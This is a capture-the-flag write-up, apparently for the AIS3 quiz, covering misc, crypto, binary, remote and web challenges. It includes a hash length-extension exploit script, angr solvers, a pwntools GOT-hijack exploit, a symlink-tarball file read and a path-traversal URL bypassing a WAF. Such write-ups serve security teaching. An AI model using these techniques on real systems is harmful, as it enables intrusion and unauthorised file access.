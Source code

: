## Misc 1

Open the url and prompt the flag.

## Misc 2

It's a 7zip chain... Modify each byte from 0x5a to 0x7z at offset 0x01, and then you'll be able to decompress it with password, which is shown as the filename or the content of the other unencrpyted file.

## Misc 3

It's just like [this case](http://josipfranjkovic.blogspot.tw/2014/12/reading-local-files-from-facebooks.html) happened to Facebook. You create a symlink named `guess.txt` to `../flag.txt`, then you add this symlink to tarball file and upload it to quiz server. You should bypass sha1sum's validation.

## Crypto 1

[xortool](https://github.com/hellman/xortool) is enough. Try to be patient to find out where the flag is.

## Crypto 2

### Intended Solution

It's a [Length Extension Attack](www.freebuf.com/articles/web/31756.html) problem. Following is my example exploit script:

```python
from hashpumpy import hashpump
import requests
import urlparse
import re

for i in xrange(61):
	mac, ext = hashpump('41fe78ff2c2c51e758bf4501fd8e6a9b8d478f4e', 'expire=1467391984', '&expire=2577390020', i)

	ext = urlparse.parse_qs(ext)

	r = requests.get('https://quiz.ais3.org:8014/', params=[('expire', ext["expire"][0]), ('expire', ext["expire"][1]), ('auth', mac)])

	failed = re.search('<div id="flag">.*ais3{.*', r.content)
	if failed:
		print "{}: {}".format(i, failed.group())
		break
```

### Unintended Solution

Because quiz server do not check the situation that ones can reuse the values of auth and expire that server gave after redirection, we can just reuse those values and append `&expire=9999999999` to the end of the url. Voila, we get the flag.

## Crypto 3

TBA.

## Binary 1

I use [angr](https://github.com/angr/angr) to solve the problem. Following is my example exploit script:

```python
import angr

proj = angr.Project('./rev')

argv1 = angr.claripy.BVS("argv1",30*8)
initial_state = proj.factory.path(args=["./rev", argv1])

path_group = proj.factory.path_group(initial_state)

path_group.explore(find=0x4006d7, avoid=0x4006cd) 

solution = path_group.found[0].state.se.any_str(argv1)

solution = solution[:solution.find("\x00")]
print solution
```

## Binary 2

It's a 64-bit machine code. You can get it presented as byte-to-byte form through: ```echo -e "..." | hexdump -e '"\\\x" /1  "%02x"'```.

## Binary 3

I use [angr](https://github.com/angr/angr) to solve the problem. Following is my example exploit script:

```python
import angr
import re

def main():
    proj = angr.Project('./caaaaalculate',  load_options={'auto_load_libs': False})

    state = proj.factory.blank_state(addr=0x402439) # main

    stdin = state.se.BVS("stdin", 30 * 8)

    k = []
    ans = []

    # Constrain 30 bytes char to be non-null and non-newline:
    for i in xrange(30):
        k.append(state.posix.files[0].read_from(1))
        state.se.add(k[i] != 0)
        state.se.add(k[i] != 10)

    # Reset the symbolic stdin's properties and set its length.
    state.posix.files[0].seek(0)
    state.posix.files[0].length = 30

    path_group = proj.factory.path_group(state, threads=4)

    path_group.explore(find=0x402487, avoid=0x40247d)

    for i, item in enumerate(k):
        ans.append(path_group.found[0].state.se.any_str(item))

    ans = ''.join(ans)

    return re.search('ais3{.+}', ans).group(0)


if __name__ == '__main__':
    print main()

```

## Remote 1

You can follow [this write-up](http://mslc.ctf.su/wp/plaidctf-2012-format-99-pwnables/) to get how to solve this problem.

## Remote 2

The program will ask you to give itself your name up to 100 bytes, and if you disassemble it, you'll find the last four bytes will be passed as store address of first scanf function. Thus, you can `readelf -r ./remote2` to check GOT addresses of all functions, and your last four bytes should be replace by any of addresses. Then, you can GOT hijack the program to jump to any position depending on your input passing to the first scanf. Following is my example exploit script:

```python
from pwn import *

r = remote('quiz.ais3.org', 53125)
print r.recv()
r.sendline('A'*96 + p32(0x0804a038))
print r.recv()
r.sendline(str(0x080486d9))
print r.recvall()
```

## Remote 3

TBA.

## Web 1

It's because `robots.txt` that Google bot cannot do anything.

## Web 2

Because there is not exit statement below header function, the script execution is not terminated. [noredirect addon](https://addons.mozilla.org/en-US/firefox/addon/noredirect/) can help you in this situation.

## Web 3

Since the argument passed into parse_url function is $_SERVER['REQUEST_URI'], we can just prepend some slashes to the beginning of the root path. Thus, we can bypass waf and get flag printed.

For instance, `https://quiz.ais3.org:8013///download.php?p=../flag.php`.
